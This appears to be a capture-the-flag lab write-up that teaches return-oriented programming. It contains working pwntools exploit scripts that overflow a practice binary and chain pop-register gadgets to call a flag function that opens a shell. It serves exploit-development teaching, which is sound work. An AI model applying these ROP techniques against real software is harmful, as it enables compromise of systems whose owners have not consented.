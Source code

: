 This program is very similiar to the param problem, but without the ability to
set the values of the registers. Our goal is to call `get_flag` with the value
0x1337 in rdi, 0xcafebabe in rsi, and 0xdeadbeef in rdx. To set those registers
we will use a technique called return oriented programming. This is based off
short sequences of code that end with a `ret`, called gadgets. Lets say that we
know that somewhere in the binary exists a section of code that looks like this:

```
    pop rdi
    ret
```

We have full control of the stack from our buffer overflow. That means if we
buffer overflow to jump to this gadget, the next value in our payload will be
placed into rdi. This is because our payload is on the stack. That means the pop
instruction will take the top value off the stack, which we control, and put it
into `rdi`. We can use a tool called ROPgadget to find gadgets. For example, the
problem has the below gadget included. 

`0x00000000004018ca : pop rdi ; ret`

We could buffer overflow to jump to 0x4018ca, and the value we placed in our
payload after the address would be put into rdi. While the problem requires 3
registers to be set, it might be a good idea to do them one at a time and check
that each register is being set properly with a debugger. For example, the
payload 

`payload = b'A'*72 + p64(0x4018ca) + p64(0x1337) + p64(e.sym['get_flag'])`

sets `rdi` to 0x1337. We can then combine multiple gadgets to create a "ROP
chain". This works because each gadget ends with a `ret`, which means we can
just keep returning to a new gadget at the end of each previous gadget. An
example solution for the problem would be the one below

```python
context.binary = 'rop'
p = process('rop')
e = ELF('rop')
#simple solution
#found using ROPGadget --binary rop
#0x00000000004018ca : pop rdi ; ret
#0x000000000040f48e : pop rsi ; ret
#0x00000000004017cf : pop rdx ; ret
chain = flat(0x4018ca,0x1337,0x40f48e,0xcafebabe,0x4017cf,0xdeadbeef,e.sym['get_flag'])
payload = flat({72:chain})
p.sendline(payload)
p.interactive()
```

This solution jumps to 3 gadgets, which each set a register. Then, it jumps to
`get_flag` at the end. This then starts a shell, and we can just print the flag.

pwntools has some advanced tools for ROP chain generation. Here are two
alternative solutions using their tools

```python
#fancy
rop = ROP('rop') # we create a ROP object to start with
rdi = rop.find_gadget(['pop rdi','ret'])[0] # rop.find_gadget searches the binary
# for a gadget, and returns a list of found memory addresses.
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = rop.find_gadget(['pop rdx','ret'])[0]
chain = flat(rdi,0x1337,rsi,0xcafebabe,rdx,0xdeadbeef,e.sym['get_flag'])
payload = flat({72:chain})

#fanciest
rop = ROP('rop')
# The rop object can be used to make entire rop chains for us
# It's smart enough to understand the calling conventions for the current arch
rop.call('get_flag', [0x1337,0xcafebabe, 0xdeadbeef])
# rop.dump prints the rop chain in a human readable way for us to inspect
print(rop.dump())
# rop.chain formats it for being sent to the binary
payload = flat({72: rop.chain()})
```
